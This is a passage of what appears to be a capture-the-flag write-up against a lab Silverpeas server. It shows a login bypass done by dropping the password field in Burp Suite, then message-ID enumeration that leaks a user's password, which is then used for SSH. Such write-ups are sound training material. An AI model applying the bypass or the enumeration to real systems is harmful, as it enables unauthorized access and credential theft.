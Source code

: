 This bypasses the login check entirely!

💡 **Credit to Chris** for the great find:
[https://github.com/Silverpeas/Silverpeas-Core/commit/11fb5e21c252ce4751b85fccf5b8076156e0b4f0](https://github.com/Silverpeas/Silverpeas-Core/commit/11fb5e21c252ce4751b85fccf5b8076156e0b4f0)

---

## 🔓 Accessing Silverpeas as `scr1ptkiddy`

Using **Burp Suite**, I removed the password field from the request and successfully logged in.

---

## ✉️ Reading Messages

Once inside Silverpeas, I had a **notification**:

> Tyler just asked if I wanted to play VR but he left you out `scr1ptkiddy` (what a jerk). Want to join us? We will probably hop on in like an hour or so.

Navigating to the **personal workspace**, I noticed the message was served via:

```
http://silverpeas.thm:8080/silverpeas/RSILVERMAIL/jsp/ReadMessage.jsp?ID=5
```

So I tried enumerating the `ID` values...

---

## 🕵️ Found Credentials in Message ID 6

Request:

```http
GET /silverpeas/RSILVERMAIL/jsp/ReadMessage.jsp?ID=6 HTTP/1.1
Host: silverpeas.thm:8080
Cookie: svpLogin=scr1ptkiddy; ...
```

📥 **Response revealed**:

```
Username: Tim  
Password: cm0nt!md0ntf0rg3tth!spa$$w0rdagainlol
```

---

## 💻 SSH Access

```bash
┌──(futaba㉿FutabaLab)
└─$ ssh tim@silverplatter.thm
```
